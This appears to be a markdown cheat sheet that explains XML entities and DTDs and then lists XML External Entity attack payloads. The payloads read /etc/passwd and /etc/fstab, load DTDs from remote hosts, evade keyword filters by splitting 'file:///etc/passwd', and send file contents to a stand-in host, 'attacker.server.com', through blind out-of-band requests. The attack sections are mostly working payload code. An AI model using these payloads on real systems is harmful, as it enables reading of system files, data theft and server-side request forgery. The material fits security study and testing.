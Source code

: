 Extenral XML Entities
=====================

# Overview

## XML

Extensible Markup Language is a way of structuring data similar to JSON which has overtaken XML in popularity and largely replaced it in general.

### XML Structure && Syntax

```
<?xml version="1.0"?>
<Person>
	<Name>John Smith</Name>
	<Age>20</Age>
</Person>

```

+ Tags are case sensitve
+ "",'',<,> are illigal characters in XML due to the parser not knowing how to handel it

## Entities && The DTD

Entites operate like variables within the XML document where, once defined, they can be used anywhere throughout the document. XML entities live within a specific part of the XML document known as the DTD.


### Document Type Definition (DTD)

```
<?xml version="1.0"?>
<!DOCTYPE Person [
	<!ENTITY name "John">
]>
<Person>
	<Name>&name;</Name>
	<Age>20</Age>
</Person>
```

#### General Entities

```
<!ENTITY generalEntity "arbitary">

<Usage>&generalEntity;</Usage>
```

#### Parameter Entities

```
<!ENTITY % outer "<!ENTITY inner 'parameter'>">

```

+ Only allowed inside the DTD
+ More flexiable and can allow the creation of an entity which contains another entity

#### Predefined

```
<specialChars>&#x3C;</specialChars>
```

+ Collections of special characters that might break the document normally

# XXE Types

## Inband

+ XML document is parsed 
+ The XML parser reads the document
+ The output of the parser is rendered/output in a response

## Error Based

+ No output
+ A kind of blind XXE injection

## Out of Band (OOB)

+ Entirely blind
+ No output
+ This requires an attack/observation server 
+ The server receives requests made from an entity in the injected payload
+ If the request comes back then the origin site is vulnerable to OOB XXE
+ This also leads to SSRF (Server Side Request Forgery)


# Atacks && Payloads

## Read System Files

```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "/etc/passwd">
]>
<out>&payloadEntity;</out>
```
+ Here the SYSTEM keyword reteives arbitary resources from a URI `/etc/passwd` to insert into the XML document
+ In this way we can achive arbitary read 

### Include Entities Remotely

```
<?xml version="1.0"?>
<!DOCTYPE XXE [
	<!ENTITY payloadEntity SYSTEM "https://callback.free.beeceptor.com/test">
]>
<out>&payloadEntity;</out>
```

## External DTD Payloads

+ Because DTDs can be passed as a URI in a `SYSTEM` call they can be loaded externally by the XML parser

```
<?xml version="1.0"?>
<!DOCTYPE DTD [
	<!ENTITY % parameter_entity "<!ENTITY secondary_entity 'PwnFunction'>">
	%parameter_entity%
]>

<payload>&secondary_entity;</payload>
```

## Blind XXE Paylods Using External DTDs

### Extenral DTD (external_payload.dtd)

```
<!ENTITY % grabPasswd SYSTEM "file:///etc/passwd">
	<!ENTITY % wrapper "<!ENTITY send SYSTEM 'http://attacker.server.com/?%grabPasswd;'>">
	%wrapper;
```

+ This will cause the parser to read the contents of `passwd` and store it in the grabPasswd parameter entity
+ This allows the usage of the parameter `grabPasswd` within the DTD
+ Another parameter entity `wrapper` is then created which points to the general entity `send` 
+ When the document is parsed the wrapper entity will spawn the `send` entity as a general entity legally via the external DTD
+ This will then send the contents of `grabPasswd` to the attack server 

### XXE Payload
```
<?xml version="1.0"?>
<!DOCTYPE payload SYSTEM "http://attack.server.com/external_payload.dtd">
<payload>&send;</payload>
```

## Filter Evasion

### External DTD 
```
<!ENTITY % p1 "fi">
<!ENTITY % p2 "le:///etc/pa">
<!ENTITY % p3 "sswd">
<!ENTITY % combined "<!ENTITY pwnFunc SYSTEM '%p1;%p2;%p3;'>">
```
### Main XML

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE xxe [
    <!ELEMENT xxe ANY>
    <!ENTITY % a SYSTEM "http://termbin.com/mo28">
    %a;
    %all;
]>
<return>&pwnFunc;</return>
```
+ This will attempt to bypass filters for keywords such as `file` and `passwd`
+ Extra layers can be added until the filter stops detecting trigger words

## Exfiltration && Pitfalls

+ Since some system files that an attacker may attempt to exfiltrate contain xml syntatic characters like `<,>` a work around must be implemented in order to read these files


### CDATA

+ The character data syntax, `<![CDATA[ <text> ]]` is a way of telling the XML parser to ignore syntactic characters that may arise within this tag
+ Consider its usage in a external DTD payload bellow

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % wrapper "<!ENTITY all '%start;%file;%end;'>">
%wrapper;
```

+ This leads to the creation of a wrapper with the three parameters desired